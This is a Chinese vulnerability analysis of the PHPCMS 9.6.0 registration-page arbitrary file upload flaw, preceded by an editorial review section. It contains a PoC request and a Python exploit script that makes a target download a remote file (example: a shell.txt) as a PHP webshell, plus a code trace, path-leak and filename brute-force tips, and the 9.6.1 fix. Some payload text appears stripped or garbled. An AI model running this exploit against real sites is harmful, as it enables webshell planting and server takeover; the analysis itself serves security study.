## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：注册与choosemodel启用、modelid能选到editor content、远程copy/allow_url_fopen、上传目录执行PHP；路径回显需注册成功进入缺列SQL错误

- **适用与权限边界（1）**：正文PoCmodelid11脚本modelid1，正常流程10，模型配置映射至关重要但没解释1与11差别，不能把任意ID视通用。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（2）**：脚本无返回仍打印success，正则贪婪匹配img且无实际执行验证；用户名/邮箱随机碰撞可能导致不回路径。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（3）**：正常birthday INSERT出现'2021-03-13'php是文本污染。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（4）**：详述phpsso故障/重复用户不回路径与文件已写区别，应保留；9.6.1修复仅图可补官方出处。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# PHPCMS V9-6-0 任意文件上传漏洞分析

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/f4MghsGAzHkeu62_5cp0VA)

前言
--

PHPCMS 是一款网站管理软件。该软件采用模块化开发, 支持多种分类方式。

环境搭建
----

本次 PHPCMS 版本为`9.6.0`, 安装步骤跟上一篇文章一样，参考 [PHPCMS_V9.2 任意文件上传 getshell 漏洞分析](https://mp.weixin.qq.com/s?__biz=MzU4NTY4MDEzMw==&mid=2247489053&idx=1&sn=de7468d2e9605a23aab7f21bc1c31ae4&scene=21#wechat_redirect)

漏洞复现
----

在注册用户处，添加用户进行抓包（这里以 Tao 为例）



```
#poc
siteid=1&modelid=11&username=Tao&password=123456&email=Tao@qq.com&info[content]=&dosubmit=1&protocol=
# http://www.tao.com/t.txt显示的内容为你要上传的文件内容
```

本次测试中, `http://www.tao.com/t.txt`文本内容如下：



修改，放包回显如下，然后我们访问该返回的 url





利用成功！！！这里再贴个脚本

```
'''
Author: Tao
'''
import requests
import re
import random
import sys

def anyfile_up(surl,url):
   url = "{}/index.php?m=member&c=index&a=register&siteid=1".format(url)
   data = {
       'siteid': '1',
       'modelid': '1',
       'username': 'Tao{}'.format(random.randint(1,9999)),
       'password': '123456',
       'email': 'Tao{}@xxx.com'.format(random.randint(1,9999)),
       'info[content]': ''.format(surl),
       'dosubmit': '1',
       'protocol': ''
  }
   r = requests.post(url, data=data)
   return_url = re.findall(r'img src=(.*)>',r.text)
   if len(return_url):
       return return_url[0]
if __name__ == '__main__':
   if len(sys.argv) == 3:
       return_url = anyfile_up(sys.argv[1],sys.argv[2])
       print('seccess! upload file url: ', return_url)
   else:
       message = \
       """
      python3 anyfile_up.py [上传内容URL地址] [目标URL]
      example: python3 anyfile_up.py http://www.tao.com/shell.txt http://www.phpcms96.com
      """
       print(message)
```

运行效果如下图：



漏洞分析
----

这个漏洞存在于用户注册处，通过上面请求的地址（`/index.php?m=member&c=index&a=register&siteid=1`）, 定位处理请求的函数为`register`, 位于文件`phpcms/modules/member/index.php`33 行处。

为了更好的理解漏洞的原理和利用的巧妙之处，我们就先看看正常的注册流程。

```
// 61-79
$userinfo = array();
$userinfo['encrypt'] = create_randomstr(6);

$userinfo['username'] = (isset($_POST['username']) && is_username($_POST['username'])) ? $_POST['username'] : exit('0');
$userinfo['nickname'] = (isset($_POST['nickname']) && is_username($_POST['nickname'])) ? $_POST['nickname'] : '';

$userinfo['email'] = (isset($_POST['email']) && is_email($_POST['email'])) ? $_POST['email'] : exit('0');
$userinfo['password'] = (isset($_POST['password']) && is_badword($_POST['password'])==false) ? $_POST['password'] : exit('0');

$userinfo['email'] = (isset($_POST['email']) && is_email($_POST['email'])) ? $_POST['email'] : exit('0');

$userinfo['modelid'] = isset($_POST['modelid']) ? intval($_POST['modelid']) : 10;
$userinfo['regip'] = ip();
$userinfo['point'] = $member_setting['defualtpoint'] ? $member_setting['defualtpoint'] : 0;
$userinfo['amount'] = $member_setting['defualtamount'] ? $member_setting['defualtamount'] : 0;
$userinfo['regdate'] = $userinfo['lastdate'] = SYS_TIME;
$userinfo['siteid'] = $siteid;
$userinfo['connectid'] = isset($_SESSION['connectid']) ? $_SESSION['connectid'] : '';
$userinfo['from'] = isset($_SESSION['from']) ? $_SESSION['from'] : '';
```

上面代码对用户信息进行了处理，130 行前的代码就是获取一下信息，分析这次漏洞来说意义不大。直接下断点到 130 行，然后`F9`跳到此处，代码如下：

```
if($member_setting['choosemodel']) {
   require_once CACHE_MODEL_PATH.'member_input.class.php';
   require_once CACHE_MODEL_PATH.'member_update.class.php';
   $member_input = new member_input($userinfo['modelid']);
   $_POST['info'] = array_map('new_html_special_chars',$_POST['info']);
   $user_model_info = $member_input->get($_POST['info']);// 135行，重点
```

走到 135 行，可以发现，这里`$_POST['info']`传入了`member_input`类中的`get`方法，跟进该方法。(该方法跳转至：`/caches/caches_model/caches_data/member_input.class.php`文件 20 行)

继续执行可发现，在这个`get`方法中，走到 47 行，获取了`datetime`函数，而 48 行也调用了该函数。

> 这里留一个问题，为什么 47 行处获取的是`datetime`这个函数？



跟进一下这个函数，代码如下：



上面代码执行完以后，返回`$value="2021-03-13"`, 然后返回`get`方法，执行

```
$info[$field] = $value;
return $info;
```

退出`get`方法，继续跟进，进入`ps_member_register`方法



继续跟进，执行`insert`操作



`F7`跟进, 执行到下图，将注册信息插入数据库，注册完成。





之后返回到`register`函数



当`$status > 0`时，执行`insert`操作，这里将`生日日期`和`用户id`插入到`v9_member_detail`表中


```
INSERT INTO `phpcmsv96`.`v9_member_detail`(`birthday`,`userid`) VALUES ('2021-03-13'php,'26')
```

到这里，我们肯定还是不知道为什么上面调用的函数是`datetime`, 先不急，我们整理一下注册的执行流程：



你是不是发现了什么？接下来我们来分析一下为什么`$func="datetime"`。

首先由于`$func = $this->fields[$field]['formtype']`，我们按 ctrl 点击`$this->fields`，同一文件，第 11 行得到的，这里传了个`'model_field_'.$modelid`, 而`$modelid = 10`，跟进一下`getcache`方法



跳转至`phpsso_server/phpcms/libs/functions/global.func.php`文件，函数内容如下:

```
function getcache($name, $filepath='', $type='file', $config='') {
if(!preg_match("/^[a-zA-Z0-9_-]+$/", $name)) return false;
if($filepath!="" && !preg_match("/^[a-zA-Z0-9_-]+$/", $filepath)) return false;
pc_base::load_sys_class('cache_factory','',0);
if($config) {
$cacheconfig = pc_base::load_config('cache');
$cache = cache_factory::get_instance($cacheconfig)->get_cache($config);
} else {
$cache = cache_factory::get_instance()->get_cache($type);
}
return $cache->get($name, '', '', $filepath);
}
```

因为`$config`未进行传参，默认为空，因此执行的是`$cache = cache_factory::get_instance()->get_cache($type);`, 执行`get_cahe`方法，传入参数`$type='file'`, 跟进一下此方法：

```
// phpcms/libs/classes/cache_factory.class.php 53行处
protected $cache_list = array();
public function get_cache($cache_name) {
if(!isset($this->cache_list[$cache_name]) || !is_object($this->cache_list[$cache_name])) {
$this->cache_list[$cache_name] = $this->load($cache_name);
}
return $this->cache_list[$cache_name];
}
```

`$cache_list`是个空数组，因此`$this->cache_list[$cache_name]`不存在，且不是对象。跟着会执行下面的代码，我们跟进一下`load`方法.

```
$this->cache_list[$cache_name] = $this->load($cache_name);
```

`load`方法代码如下：

```
public function load($cache_name) {
$object = null;
if(isset($this->cache_config[$cache_name]['type'])) {
switch($this->cache_config[$cache_name]['type']) {
case 'file' :
$object = pc_base::load_sys_class('cache_file');
break;
case 'memcache' :
define('MEMCACHE_HOST', $this->cache_config[$cache_name]['hostname']);
define('MEMCACHE_PORT', $this->cache_config[$cache_name]['port']);
```

由于`$cache_name = 'file'`, 从而执行`$object = pc_base::load_sys_class('cache_file');`, 跟进一下`pc_base::load_sys_class`方法



调用了`_load_class`类，继续进入



122 行的代码不会执行，因为文件路劲中`没有自己的扩展文件`，`my_path`方法代码如下：

```
public static function my_path($filepath) {
$path = pathinfo($filepath);
if (file_exists($path['dirname'].DIRECTORY_SEPARATOR.'MY_'.$path['basename'])) {
return $path['dirname'].DIRECTORY_SEPARATOR.'MY_'.$path['basename'];
           // 没有 my_cache_file.class.php
} else {
return false;
}
}
```

上图执行到 130 行，返回了`cache_file`对象（因为`$name='cache_file'`），内容见下图：



这里返回完了以后，退出到执行`phpsso_server/phpcms/libs/functions/global.func.php`中 548 行处`get`方法，代码如下：



代码传入的参数`$name`就是下图的`'model_field_'.$modelid` = `'model_field_10'`：


看看 get 方法，可以发现，它包含了`/caches/caches_model/caches_data/model_field_10.cache.php`文件



且 91 行返回了`/caches/caches_model/caches_data/model_field_10.cache.php`中的内容



内容如下：



`$func = $this->fields[$field]['formtype'];` 对应此文件中`'formtype' => datetime`，因此这里`$func = datetime`。

当然，这里数据也可以通过数据库中`v9_member_field`表获取。





可能上面描述的不太直观，我们再次梳理一下获取`datetime`函数的流程：





接下来我们分析 poc

> 注意：再一次使用 poc 的时候，我们需要保证`username`值和`email`是唯一的

通过上面的分析，直接下断点到关键处



如上图，这里获取的是`editor`函数，而在这个函数中，有个`download`方法 (下图，文件在`caches/caches_model/caches_data/member_input.class.php`)







上面关键代码如下：

```
$ext = 'gif|jpg|jpeg|bmp|png';
...
$string = new_stripslashes($value);
if(!preg_match_all("/(href|src)=([\"|']?)([^ \"'>]+\.($ext))\\2/i",$string, $matches)) return $value;
```

这个正则匹配不难理解，需要满足`href/src=url. (gif|jpg|jpeg|bmp|png)`，这就是为什么我们写`info[content]=0) $surl = substr($surl,0,$pos);
```

`strpos`定位`#`, 然后使用`substr`处理`http://www.tao.com/t.txt?.php#.jpg`, 处理完之后`$surl = http://www.tao.com/t.txt?.php`。

继续执行，可以发现返回的 url 去掉了`#`后面的内容



下面 166 行处获取了上面返回 url 的后缀，及`php`, 通过`getname`方法进行重命名，可以发现的是，`getname`方法返回的文件名也只是时间 + 随机的三位数。如果不返回上传文件的 url 地址，也可以通过爆破获取。



接着程序调用了`copy`函数, 对远程的 url 文件进行了下载



这里的`$this->upload_func`是`copy`函数的原因, 是因为初始化时赋给的（看下图）



此时能看到我们要写入的内容已经成功写入文件了。



接着我们来看看写入文件的路劲是如何返回给我们的。上面程序执行完以后，回到了`register`函数中：



F7 跟进



```
INSERT INTO `phpcmsv96`.`v9_member_detail`(`content`,`userid`) VALUES ('','25')
```

可以发现，上上图 140 行处`$status > 0`时会执行上面的 SQL 语句，也就是向`v9_member_detail`的`content`和`userid`两列插入数据



但是由于`v9_member_detail`表结构中没有`content`列，产生了报错。从而将插入数据中的 sql 报错语句 (包含 shell 路径) 返回了前台页面。

前面说 140 行`$status>0` 时才会执行 SQL 语句进行 INSERT 操作。我们来看一下什么时候`$status <= 0`, 不执行`insert`呢?

通过前面 139 行我们发现`$status`是由`client`类中`ps_member_register`方法返回的（函数路劲在：`phpcms/modules/member/classes/client.class.php` ）



`$status <= 0`都是因为用户名和邮箱不唯一导致的，所以我们 payload 尽量要随机

另外在 phpsso 没有配置好的时候`$status`的值为空，也同样不能得到路径

在无法得到路径的情况下我们只能爆破了 ，文件名的生成方法 (在`phpcms/libs/classes/attachment.class.php`)


返回的文件名也只是时间 + 随机的三位数。比较容易爆破的。

漏洞修复
----

在 phpcms9.6.1 中修复了该漏洞，修复方案就是对用`fileext`获取到的文件后缀再用黑白名单分别过滤一次



文章中有什么不足和错误的地方还望师傅们指正。

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
